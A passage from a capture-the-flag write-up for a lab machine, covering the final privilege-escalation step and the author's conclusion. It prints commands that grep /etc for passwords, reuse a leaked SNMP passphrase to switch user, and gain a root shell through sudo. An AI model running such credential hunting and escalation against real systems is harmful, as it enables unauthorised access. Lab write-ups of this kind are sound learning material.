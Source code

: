 Ideally we want root -- but maybe we can privesc via the james user?  I ran [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) but didn't see much that stood out.

I floundered a little with some more enumeration, and decided to start grepping the filesystem for sensitive things. Next I grepped the filesystem for 'pass':

```bash
svc@mentor:/dev/shm$ grep -irn pass /etc 2> /dev/null
/etc/snmp/snmpd.conf:78:# createUser username (MD5|SHA|SHA-512|SHA-384|SHA-256|SHA-224) authpassphrase [DES|AES] [privpassphrase]
/etc/snmp/snmpd.conf:92:createUser bootstrap MD5 SuperSecurePassword123__ DES
```

Let's try `su` as james with the password `SuperSecurePassword123__`

```bash
svc@mentor:/dev/shm$ su james
Password: 
james@mentor:~$ sudo -l
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
james@mentor:~$ sudo /bin/sh
# ls /root
logins.log  root.txt  scripts  snap
# cat /root/root.txt
1f508ff3a36988138861bde0e30f4c0f
```

So we were able to `su` as james, and as `sudo -l` shows, this account can run `/bin/sh` as root.

And that's it -- we have the root flag!

## Conclusion

This machine was a little bit of an oddball: SNMP and a flaky web server that I was unable to enumerate initially both resulted in a substantial amount of time lost.

I've used SNMP within both my home lab and working for an MSP before (configuring remote management software), but did not expect to have issues enumerating community strings until I found one tool that worked with SNMPv2.

Apart from these two hiccups, the only other challenge was tunnelling the postgres connection -- and 0xdf's quick cheatsheet was very useful here.  Another more tedious option would be to write a custom python script to run from within the container, connecting to the Postgres instance and dumping tables.

Otherwise, the machine was fairly straight forward mostly requiring enumerating APIs trying to get an admin JWT in order to further enumerate authorized APIs followed by basic command injection into a backup endpoint that was easily testable before being used to gain a reverse shell.

I'm looking forward to more challenges where tunnelling, pivoting, etc are involved across a larger lab simulating a proper network -- and interested to see what other tooling exists in this area.
